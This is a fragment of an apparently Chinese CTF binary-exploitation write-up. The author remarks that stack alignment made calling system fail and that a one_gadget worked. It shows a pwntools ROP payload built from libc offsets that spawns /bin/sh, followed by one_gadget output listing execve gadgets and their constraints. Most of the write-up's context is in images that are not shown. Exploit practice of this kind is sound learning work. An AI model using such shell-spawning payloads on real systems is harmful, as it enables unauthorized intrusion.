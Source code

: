 [![](assets/1701606597-05567e95d8001bcfbfcbe11972cca579.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170324-ff8c579e-845e-1.png)

[![](assets/1701606597-7bd2d737d7b2a9ba93e72190c1416893.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170328-022e8fe4-845f-1.png)

蚌埠住了，栈平衡真的好玄学，sys 调了好久都不行，换 og 一把出了

```bash
r12 = 0x000000000002f709+libc_base
og = libc_base + 0xe3afe
pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
p.send(pl)

'''
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
'''
```

[![](assets/1701606597-6e839b5c7e8e9164fb03390fafcb8b65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170334-0588b2d2-845f-1.png)
